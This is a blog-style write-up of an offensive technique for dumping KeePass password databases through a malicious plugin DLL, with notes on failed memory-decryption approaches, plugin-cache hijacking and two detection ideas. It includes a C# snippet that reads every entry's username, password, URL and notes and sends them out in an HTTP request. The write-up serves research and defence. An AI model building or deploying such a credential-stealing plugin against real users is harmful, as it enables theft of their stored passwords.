 # **Dumping KeePass**


### tl;dr

Using KeePass's extension feature it is very simple to dump the entire DB and extract it. Simply put, a single DLL on file disk will extract the entire DB in plaintext. While I focus on Windows, this technique can easily be ported to other OS's

Note: **I do not believe any of this is novel or new, just not widely used.** I spoke to a few friends and they were not aware of this particular TTP against KeePass. Of course after I completed this research I was made aware of the [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn/tree/main) repository. However, their tool uses the export function, which I explicitly avoided since it has been known to be used on other dumping tools.

### Introduction

Password Vaults continue to rise in popularity and KeePass is one of the more popular tools used. I have already taken a look at [1Passwords Chrome Extension](https://syntax-err0r.github.io/1Password_Extension_PostEx.html) and now wanted to look at a thick client on Windows. A lot of research has been put into KeePass such as [KeeThief](https://github.com/GhostPack/KeeThief) but I ultimately wanted a way to perform the extraction without injecting into the process.

I will detail one of the many methods/avenues I tried before ultimately landing on the "Easy Way". All the steps/information is for a default setup of KeePass. **I leave some steps and a full PoC out as it is worthwhile to go through everything yourself.** 

### Methodology/Failed Attempts

My initial goal was to be in a remote process context, scrape the memory for keepass.exe, and decrypt the credentials which I thought would be possible because ["KeePass uses the Windows DPAPI"](https://keepass.info/help/base/security.html). So I fired up dnSpy and began to debug the process. I set breakpoints on interestingly named functions like "Decrypt", "ReadData", etc. However I quickly noticed under the hood it was not the traditional DPAPI that can be used on a users entire logon context like Chrome used to use. Instead it was using [SystemFunction041](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory).

![](assets/system041.png)

Additionally, when calling that API it takes a Flag to identify the scope of the encryption/decryption and ties it to the process instead of the logon session. 

![](assets/system_scope.png)

With this in mind I thought about several ideas such as patching the process to use the LOGON flag instead of the PROCESS flag, patching the exe on disk to do the same, etc. but all ideas involved breaking the exe certificate or injection in some form, which is what I originally wanted to avoid. My last ditch effort on this was to duplicate the KeePass Process Token and attempt the RTLDecryptMemory function however this also failed, and after speaking to a friend much more versed on Windows Internals I decided to abandon this path. 

### Easy Way

While on KeePass's website I noticed the [plugins](https://keepass.info/plugins.html) page. This felt like it would be very similar to [Chrome Extensions](Silently_Install_Chrome_Extension.md). After clicking on a few projects and reviewing the documentation it was clear these were all just DLL's that use the KeePass.exe C# Methods [under the hood](https://keepass.info/help/v2_dev/plg_index.html). So the plan forward was clear - create a KeePass plugin that leverages the same decryption methods KeePass use and since we are in the same process we will be able to call RTLDecryptMemory with the same flags (or could it be even easier). With a breakpoint on the SystemFunction041 I inspected the callstack and noticed a call from "OnEntryCopyPassword" that gets called when you right click on an entry and "copy Password".

![](assets/on_entry_copy.png)

Looking at that function you will see a "GetSafe" function being called for "Password".

![](assets/getsafe.png)

Working backwards we see the String is a part of a "PwEntry". Continuing to work backwards you will eventually see PwEntry is essentially an array of the entries within the open Database. Using their same code we can effectively use KeePass as a reference and dump entries. I provide a sample code below but you will need to work on getting the proper methods/variables called. This then just quickly sends the information to a remote host. 

```
    foreach (var entry in entries)
    {
        var title = entry.Strings.GetSafe("Title").ReadString();
        var notes = entry.Strings.GetSafe("Notes").ReadString();
        var url = entry.Strings.GetSafe("URL").ReadString();
        var username = entry.Strings.GetSafe("UserName").ReadString();
        var password=entry.Strings.GetSafe("Password").ReadString();
        string query = string.Format(
    "title={0}&notes={1}&url={2}&username={3}&password={4}",
    HttpUtility.UrlEncode(title),
    HttpUtility.UrlEncode(notes),
    HttpUtility.UrlEncode(url),
    HttpUtility.UrlEncode(username),
    HttpUtility.UrlEncode(password)
);

        string fullUrl = "http://127.0.0.1:8080/?" + query;

        using (WebClient client = new WebClient())
        {
            client.DownloadString(fullUrl);
        }
    }
```

![](assets/dbcreds.png)

### Other Interesting Tidbits

One of the drawbacks of this method is if KeePass is installed in Program Files it does require Local Admin to install. Interestingly though if a user has already installed a plugin using the native PLGX extension it is possible to hijack this and install it from a non local administrator [Source](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html).

In addition I noticed once a user decrypts the password in KeePass, the password is stored in plaintext which introduces the possibility to just scrape memory. 

![](assets/findmepassword.png)

### Detections

- FileWrite to the KeePass extensions folder by anomalous processes
- Low prevalence (or any) extensions
